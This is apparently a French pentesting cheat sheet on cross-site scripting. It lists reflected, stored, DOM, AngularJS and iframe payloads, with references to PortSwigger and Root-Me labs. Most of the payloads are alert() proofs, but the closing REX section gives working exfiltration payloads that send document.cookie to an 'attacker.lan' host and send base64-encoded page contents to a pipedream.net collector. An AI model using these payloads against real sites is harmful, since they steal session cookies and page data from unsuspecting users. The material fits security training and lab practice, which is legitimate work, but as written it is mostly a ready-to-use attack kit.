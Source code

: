 # XSS

1. Use SecList https://github.com/danielmiessler/SecLists/tree/master/Fuzzing to find more payload
2. Burp ressources: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
3. Lorsque des caractères sont filtrés: utiliser le fuzzer ZAP, le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit j'usqu'a avoir des réponses 200 avec chars non-encodés
4. regarder dans le debugger du navigateur: "inspect element" et onglet "source"

## Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, Il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

```js
<script>alert(0)</script>
```

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

```js
onready="alert(0)
```

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

```js
'; alert(0); //
```

# types

## Reflected + Stored

```js
<script>alert(0)</script>
<img src=1 onerror=alert(1)>
```

parfois il faut jouer avec les "quotes":

```js
"onmouseover="alert(0)'
```

éxecutera: 

```js
name=search value=""onmouseover="alert(0)">
```

Quand la saisie réapparait dans un href, on insert directement le code JS:

```js
javascript:alert(document.domain)
```

Si la saisie réapparait dans du code JS, on ferme la quote ' et utilise le signe moins - ou + pour concat:

```js
'+alert(document.cookie)+'
```

## DOM

```js
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>
```

### jQuery + manipulation url


```js
?returnUrl=javascript:alert(document.domain)
```

### AngularJS + ng-app attribute

```js
{{constructor.constructor('alert(1)')()}}
```

### in xhr

```js
\"-alert(1)}//
```

## POC depuis un iframe

```js
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>
```

## custom ID (from malicious server)

```js
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

## REX

exemple paload pour vol de cookie (DOM based): 

```
test';document.location="https://attacker.lan?c="+document.cookie;'
```


Online et vol du contenu la page web:

```
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```
ou
```
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```

(payload rootme: http://challenge01.root-me.org:58008/page?user=<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">  )


